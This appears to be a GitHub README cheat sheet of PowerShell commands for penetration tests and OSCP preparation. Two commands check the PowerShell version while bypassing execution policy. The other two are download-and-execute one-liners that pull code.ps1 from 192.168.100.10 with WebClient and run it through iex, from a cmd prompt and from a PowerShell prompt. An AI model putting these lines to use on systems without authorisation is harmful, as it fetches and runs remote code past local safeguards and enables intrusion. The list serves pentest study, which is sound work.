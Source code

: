 # Powershell-Cheatsheet
Hand list of Powershell commands frequently used during penetration tests / OSCP

## Check the Powershell Version

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex get-host"
```

## Test if you can run PowerShell Version 2

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

## Execute Remote Powershell from windows command prompt

```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))" && SET "PATH=%PATH%;%ALLUSERSPROFILE%\code\"
```

## Execute Remote Powershell from Powershell prompt

```Powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))
```
